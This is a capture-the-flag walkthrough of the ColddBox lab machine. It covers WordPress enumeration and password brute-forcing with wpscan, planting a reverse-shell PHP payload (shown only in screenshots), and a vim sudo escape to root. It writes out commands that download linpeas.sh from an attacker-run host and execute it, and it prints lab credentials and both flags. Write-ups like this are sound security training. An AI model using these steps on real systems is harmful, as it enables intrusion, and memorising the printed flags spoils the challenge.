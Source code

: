# Information

Name: ColddBox

Difficulty: Easy

Description: An easy level machine with multiple ways to escalate privileges.

## Network enumeration

**Search for open ports using nmap.**

![image](https://user-images.githubusercontent.com/43668197/133641274-56d8287e-6f46-4686-8f6c-efdf5585b593.png)

We have a simple single attack vector machine with the only port open being 80 and we already know its running WordPress and we even have the version 4.1.31.

## Web enumeration

The site is a very basic wordpress page.

![image](https://user-images.githubusercontent.com/43668197/133642232-a7518fa7-3116-4ff6-8d93-9be9f5c3a70f.png)

gobuster finds an unusual hidden directory. Which gives us some possible user names.

![image](https://user-images.githubusercontent.com/43668197/133645634-1a93c872-9fdc-4ee9-bbbb-8c99e67b96c2.png)

![image](https://user-images.githubusercontent.com/43668197/133645694-cf1cd480-b55a-478b-b6c1-2648edcf5adc.png)

The wordpress login page is at the usual place of http://10.10.13.205/wp-login.php. I attempted to use default credentials, no luck getting in there
but it does give us the information that the username was incorrect. Trying out the name hugo we discovered earlier does tell us this user exist so we might
be able to brute it with hydra.

![image](https://user-images.githubusercontent.com/43668197/133646388-1a86fb4d-d4be-4331-a15c-dc41867e4844.png)

First I use wpscan to see if theres any obvious exploits and then I use it to further enumerate the users with the command 
wpscan --url http://10.10.13.205/ --enumerate u  

![image](https://user-images.githubusercontent.com/43668197/133654198-94e2406f-d743-4779-9add-acbd0dca7b89.png)

I add these users to a .txt file and attempt to brute force them with wpscan.

![image](https://user-images.githubusercontent.com/43668197/133656477-711d6ddf-d7de-4445-8cc6-ecb3c29db3d5.png)

We get a username:password combo to log in wordpress with. After logging in I navigated to appearance -> editor -> 404.php and added my php payload to the start.

![image](https://user-images.githubusercontent.com/43668197/133656890-b51678f1-cc55-442f-b565-5d80a2937e55.png)

Then we start up nc listener and head over to http://10.10.13.205/?p=404.php.

![image](https://user-images.githubusercontent.com/43668197/133657182-c0cb3af3-6f21-428d-97b3-d50b83f96561.png)

## Initial access - www-data

Theres one user in the home directory and that is c0ldd. We do not yet have permission to access the user.txt file located there. Its time to move linpeas in and
scan the system.

On my machine:

```
python3 -m http.server
```

On the colddbox machine:

```
cd /tmp
wget http://10.2.70.199:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://user-images.githubusercontent.com/43668197/133661545-de3b831c-c392-4817-8c5e-460a7a7e2798.png)

Weve now got log in credentials c0ldd:cybersecurity and can access ssh on port 4512.

## Privilege escalation

![image](https://user-images.githubusercontent.com/43668197/133662122-1183912b-acc6-4643-9369-17ec4d1ef967.png)

We can get the user flag now.

**user.txt**

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

Sudo -l reveals a few sudo options for this user.

![image](https://user-images.githubusercontent.com/43668197/133662797-f23cc0f3-8f18-4b9f-a9cf-02c4bc2ea6e8.png)

I take the first option and pick vim, https://gtfobins.github.io/gtfobins/vim/#sudo

![image](https://user-images.githubusercontent.com/43668197/133662960-e4d83dc8-0739-4f6c-938e-9e304dbd1129.png)

The root flag is located at /root

**root.txt**

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
